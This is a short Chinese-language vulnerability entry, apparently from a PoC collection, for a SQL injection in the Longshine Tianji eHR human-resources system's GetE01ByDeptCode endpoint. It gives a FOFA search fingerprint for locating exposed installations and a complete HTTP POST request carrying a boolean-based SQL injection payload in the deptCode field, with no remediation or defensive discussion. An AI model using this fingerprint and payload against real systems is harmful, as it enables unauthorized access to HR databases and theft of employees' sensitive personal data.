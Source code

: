 # 朗新天霁智能eHR人力资源管理系统GetE01ByDeptCode存在SQL注入漏洞

朗新天霁智能eHR人力资源管理系统GetE01ByDeptCode存在SQL注入漏洞，攻击者可获取数据库敏感数据。

## fofa

```java
body="divRememberPwd"
```

## poc

```java
POST /api/Com/GetE01ByDeptCode HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Connection: close
 
{"deptCode":"1') AND 8104=8104 AND ('UCOF'='UCOF"}
```



## 漏洞来源

- https://mp.weixin.qq.com/s/YukReJJYMHD0tuZyfgcjhg